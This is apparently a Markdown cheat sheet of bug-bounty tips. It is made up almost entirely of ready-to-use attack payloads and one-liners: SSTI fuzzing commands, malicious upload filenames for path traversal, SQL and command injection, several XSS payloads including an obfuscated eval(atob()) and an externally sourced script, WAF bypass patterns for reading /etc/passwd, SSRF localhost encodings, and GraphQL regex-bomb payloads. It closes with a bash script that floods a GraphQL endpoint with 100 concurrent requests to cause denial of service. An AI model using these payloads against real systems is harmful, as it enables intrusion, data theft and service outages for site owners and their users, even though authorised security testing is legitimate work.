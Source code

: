 # Bug Bounty Tips File -3
## SSTI to RCE oneliner check
```sh
 waybackurls http://target.com | qsreplace "abc{{9*9}}" > fuzz.txt
 ffuf -u FUZZ -w fuzz.txt -replay-proxy http://127.0.0.1:8080/
 ```
 ```sh
 waybackurls https://abc.com | grep '=' | qsreplace "abc{{9*9}}"  | httpx -match-regex 'abc81' -threads 300 -http-proxy http://127.0.0.1:8080/
 ```
search: abc81 in burpsuite search and check
## Chaining file uploads with other vulns:-
 Set filename to:- 
`../../../tmp/lol.png` for path traversals
`sleep(10)-- -.jpg` for SQLi.
`<svg onload=alert(document.comain)>.jpg/png` for xss
`; sleep 10;` for command injections
## Extract urls,srcs and hrefs from all HTML elements in any website
**Open DevTools and run**
```js
urls = []
$$('*').forEach(element => {
  urls.push(element.src)
  urls.push(element.href)
  urls.push(element.url)
}); console.log(...new Set(urls))
```
## XSS
### XSS Oneliner
```sh
gospider -a -s abc.com -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```
### XSS Payloads for short length inputs
```js
<script src=//⑮.₨></script>
```
### XSS Payloads
```js
 img{background-image:url('javascript:alert()')}
 <svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))> 
 ```
### Stored XSS Payloads
```js
<img src=`xx:xx`onerror=alert(1)>
<div/onmouseover='alert(1)'> style="x:">
\";alert('XSS');//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
```
## WAF Bypass
***WAF restriction? Use these:***
 ```sh
 /etc/passwd 
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?
```
## SSRF Localhost Access Bypass
```sh
0
127.00.1
127.0.01
0.00.0
0.0.00
127.1.0.1
127.10.1
127.1.01
0177.1
0177.0001.0001
0x0.0x0.0x0.0x0
0000.0000.0000.0000
0x7f.0x0.0x0.0x1
0177.0000.0000.0001
0177.0001.0000..0001
0x7f.0x1.0x0.0x1
0x7f.0x1.0x1
```
### When you are testing sharepoint applications check this file path that sometimes leads to directory listing:
```js
/_layouts/mobile/view.aspx
Google dork: /_layouts/mobile/view.aspx
```
## DOS GraphQl Endpoint
***Create DOS on GraphQl Endpoint by appending null characters by somehow***
You can reveal the bug inserting `"\u0000"` on search parameter, in order to display an error with part of the graph query.
** Example -1**
```graphql
query a { 
  search(q: "\u0000)", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id  
 }
}
```
**Example -2** 
```graphql
query a { 
  search(q: "\u0000)", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id  
 }
}
```
### Graphql Payload with Regex Bomb
```graphql
query a { 
  search(q: "[a-zA-Z0-9]+\\s?)+$|^([a-zA-Z0-9.'\\w\\W]+\\s?)+$\\", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id 
 }
}
```
### Exploit Code
```sh
#!/bin/bash
RED='\033[0;31m'
Y='\033[0;33m'
NC='\033[0m' # No Color
printf  "${Y}================================================================\n"
printf  "${Y}====================${NC} EXECUTING THE PAYLOAD ON ${Y}=======================\n"
printf  "${NC}https://abc.com/graphql ${Y}========\n"
printf  "${Y}================================================================${NC}\n"
for i in {1..100}; do curl 'https://abc.com/graphql'  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36' -H 'content-type: application/json' -H 'accept: */*'      --data-binary $'{"query":"query a { \\n  search(q: \\"[a-zA-Z0-9]+\\\\\\\\s?)+$|^([a-zA-Z0-9.\'\\\\\\\\w\\\\\\\\W]+\\\\\\\\s?)+$\\\\\\\\\\", lang: \\"en\\") {\\n    _id\\n   weapon_id\\n    rarity\\n    collection{ _id name }\\n    collection_id \\n \\n }\\n}","variables":null}' --compressed  & done

```
### Supporting Materials
> ***https://hackerone.com/reports/1000567***

